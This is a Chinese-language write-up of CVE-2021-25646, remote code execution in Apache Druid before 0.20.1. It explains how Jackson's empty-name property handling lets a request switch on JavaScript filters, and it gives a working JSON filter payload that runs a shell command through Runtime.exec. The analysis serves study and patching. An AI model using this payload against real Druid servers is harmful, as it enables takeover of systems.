




- [CVE-2021-25646 Apache Druid 远程代码执行](#cve-2021-25646-apache-druid-远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [JavaScript functions](#javascript-functions)
    - [JavaScript Filter](#javascript-filter)
      - [@JsonProperty](#jsonproperty)
  - [复现](#复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2021-25646 Apache Druid 远程代码执行
## 影响版本
Apache Druid < 0.20.1
## 环境搭建
https://archive.apache.org/dist/druid/0.20.0/apache-druid-0.20.0-bin.tar.gz

修改`apache-druid-0.20.0-bin/apache-druid-0.20.0/conf/druid/single-server/nano-quickstart/coordinator-overlord/jvm.config`，添加IDEA DEBUG参数。

进入bin目录执行`./start-nano-quickstart`
## 原理分析
错误
### JavaScript functions
根据官方文档,druid支持动态执行JavaScript函数来拓展功能,但其默认不启用,需要手动开启Druid.javascript.enabled = true。

其中就支持在Filter中使用,用来支持在查询数据的时候根据过滤器对数据进行过滤。
### JavaScript Filter
JavaScript Filter即允许在查询时动态执行JS函数,默认不开启官方文档如下,:
  

在`src/main/java/org/apache/druid/query/filter/JavaScriptDimFilter`中,其构造函数如下
```java
  @JsonCreator
  public JavaScriptDimFilter(
      @JsonProperty("dimension") String dimension,
      @JsonProperty("function") String function,
      @JsonProperty("extractionFn") @Nullable ExtractionFn extractionFn,
      @JsonProperty("filterTuning") @Nullable FilterTuning filterTuning,
      @JacksonInject JavaScriptConfig config
  )
```
#### @JsonProperty
@JsonProperty注解主要用于实体类的属性上,作用可以简单的理解为在反序列化的时候给属性重命名。
@JacksonInject：它的功能就是在反序列化的时候将没有的字段设置为我们设置好的默认值。

在构造函数中其中的config参数即为JavaScript功能是否开启,其从配置文件中取得默认值为False。而且其前面使用的是JacksonInject注解,而不是JsonProperty注解，即该参数本并不能从请求的JSON数据中进行设置。

Durid使用的JSON解析工具为JackJON,而在JackSON中，当注解@JsonCreator修饰方法时，方法的所有参数都会被解析成CreatorProterty类型，如果属性没有被@JsonProperty修饰，就会创建一个name为""的CreatorProterty，Jackson会将用户输入的key为""的value赋值给该属性。
```java
    public static PropertyName construct(String simpleName, String ns)
    {
        if (simpleName == null) {
            simpleName = "";
        }
        if (ns == null && simpleName.length() == 0) {
            return USE_DEFAULT;
        }
        return new PropertyName(InternCache.instance.intern(simpleName), ns);
    }
```
而config参数即没有被@JsonProperty修饰,导致Jackson默认为其创建了一个name为""的CreatorProterty,从而导致在请求时通过传入一个键为“”的JSON键值即可修改config参数配置来开启JavaScript Filter,进而执行JS函数RCE。
## 复现
修改filter参数如下
```json
"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('touch /tmp/poctest')}",
"dimension":"111",    "":{
    "enabled":"true"
    }
    }
```


## 补丁
升级到druid-0.20.1及以上版本。https://druid.apache.org/downloads.html  

忽略了对"空字符串的解析。

## 参考
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25646